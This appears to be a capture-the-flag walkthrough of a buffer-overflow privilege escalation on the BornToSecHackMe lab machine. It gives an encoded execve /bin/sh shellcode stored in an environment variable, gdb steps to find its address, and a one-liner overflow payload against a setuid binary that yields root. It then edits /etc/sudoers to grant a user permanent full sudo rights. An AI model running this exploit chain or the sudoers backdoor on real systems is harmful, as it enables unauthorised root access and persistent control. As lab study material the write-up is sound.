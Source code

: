 aonus 3 - Buffer Overflow

Similar to Return2libc attack, except that instead of pointing to /bin/sh, we will point to our own shellcode.

export SHELLCODE=`perl -e 'print "\x90"x31 . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x10\xfc\xff\xbf"'`

````bash
gdb exploit_me
(gdb) b *main
(gdb) r
(gdb) x/s *((char **)environ+0)

(gdb)  x/50xg 0xbffff8a3

0xbffff8a3:	0x444f434c4c454853	0x9090909090903d45
0xbffff8b3:	0x9090909090909090	0x9090909090909090
0xbffff8c3:	0x9090909090909090	0x310876895e1feb90
0xbffff8d3:	0xb00c4689074688c0	0x568d084e8df3890b
….
````

=> we take 0xbffff8b3
````bash
$> ./exploit_me $(python -c 'print "i"*140 + "\xb3\xf8\xff\xbf"')
````
=> we are root

Pour donner tous les privileges à zaz, on peut modifier les droits du fichier /etc/sudoers :
````bash
$ chmod 666 /etc/sudoers
````
Modifications du fichier :
````bash
[...]
16 # Cmnd alias specification
17
18 # User privilege specification
19 root    ALL=(ALL:ALL) ALL
20 zaz     ALL=(ALL:ALL) ALL
21
22 # Members of the admin group may gain root privileges
23 %admin ALL=(ALL) ALL
[...]
````
````bash
$> chmod 440 /etc/sudoers
````
````bash
$>sudo su
$>[sudo] password for zaz:
$>root@BornToSecHackMe:/home/zaz# id
$>uid=0(root) gid=0(root) groups=0(root)
````

https://beta.hackndo.com/buffer-overflow/
